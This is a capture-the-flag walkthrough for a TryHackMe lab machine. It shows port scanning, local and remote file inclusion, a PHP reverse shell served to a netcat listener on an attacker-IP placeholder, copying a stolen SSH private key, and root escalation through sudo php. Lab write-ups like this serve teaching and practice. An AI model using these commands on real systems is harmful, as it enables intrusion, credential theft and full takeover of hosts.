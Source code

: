 ## Air - A Guia Anonima CTF Test

>[!IMPORTANT]
>**10.10.11.250** is my Target IP, but it is randomly generate each time the TryHackMe machine starts!<br>
>**X.X.X.X** is my Attack Machine IP address, so you will need to check and adjust according your environment.

Used tools:
- Nmap
- nc (netcat)
- Python

We started with a simple port scan using Nmap on the target..  
```Shell
#This generally gives us some open ports - top 1000
nmap -sS [Target_IP] -v

#Then specify and get more info
nmap -sV [Target_IP] -p 22,80 -v

#Results:
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
Next, we tested the web server directly and were redirected to /air/:  
http://10.10.11.250/air/

While navigating, we notice a possible LFI Vulnerabilty at the URL:  
http://10.10.11.250/air/?page=home.html

Testing LFI - _**Success / Vulnerable**_:  
http://10.10.11.250/air/?page=../../../../etc/passwd

We were able to enumerate some users:  
```Shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
[...]
arkham:x:1000:1000:arkham,,,:/home/arkham:/bin/bash
```
Now Testing RFI - _**Success / Vulnerable**_:  
Open a terminal and start a web server using Python:  
```Shell
python -m http.server 4444
```
Go to URL and try:  
http://10.10.11.250/air/?page=http://X.X.X.X:4444/

Check the Python web server to confirm it receives the request from the target machine.  

---

**Now, getting the Reverse Shell:**  
- Write a PHP Reverse Shell; (Recommended: [pentestmonkey repo](https://github.com/pentestmonkey/php-reverse-shell/blob/8aa37ebe03d896b432c4b4469028e2bed75785f1/php-reverse-shell.php) )
- Start a Web Server with Python;
- Start a listening TCP connection with nc;

```Shell
#Adjust the PHP Reverse Shell lines 49 and 50 with your proper IP and Port (from listening term/nc)
In this example, my file is my_reverse_shell.php
$ip = 'X.X.X.X';  // CHANGE THIS
$port = 9898;       // CHANGE THIS

#Open new Terminal (I'll call it: Term1)
nc -nlvp 9898

#In another Terminal, in the path with the PHP Rev. Shell file
python -m http.server 4444
```
In the browser:  
http://10.10.11.250/air/?page=http://X.X.X.X:4444/my_reverse_shell.php

Now, get the shell at _Term1_
```Shell
#Look for files
ls /opt
#output:
bkp

ls -l /opt/bkp
#output:
-r--r--r--r 1 root root 1679 May 12 18:52 id_rsa
#This is a Private key used for SSH connections. Sometimes the ssh config does not require password authentication.

cat /opt/bkp/id_rsa
#now copy the contect and create a file on your machine, then paste the data and save it.
nano sshkey
[...paste data and save...]
chmod 600 sshkey
```

Trying to login with SSH
```Shell
ssh arkham@10.10.11.250 -i sshkey
#Output:
(Some banner SSH info and LOGIN SUCCESS with arkham user)
```

**The First Flag:**
```Shell
cat /home/arkham/user.txt
```

The second flag (room description) needs a root privilege.  
Now, start the Privilege Escalation:  
```Shell
#checking the sudo permissions
sudo -l
#output:
Matching Defaults entries for arkham on guiaanonima:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User arkham may run the following commands on guiaanonima:
  (ALL : ALL) ALL
  (root) NOPASSWD: /usr/bin/php
#The last line shows that PHP can be executed as root without a password request for user arkham. This is a point for escalation.
```

On [gtfobins](https://gtfobins.github.io/gtfobins/php/) ,under the PHP option, we can see a SUDO category:  
>If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```Shell
#Now, execute and get the root privilege
CMD="/bin/sh"
sudo php -r "system('$CMD');"

whoami
#output:
root
```

The Second flag:
```Shell
cat /root/root.txt
```
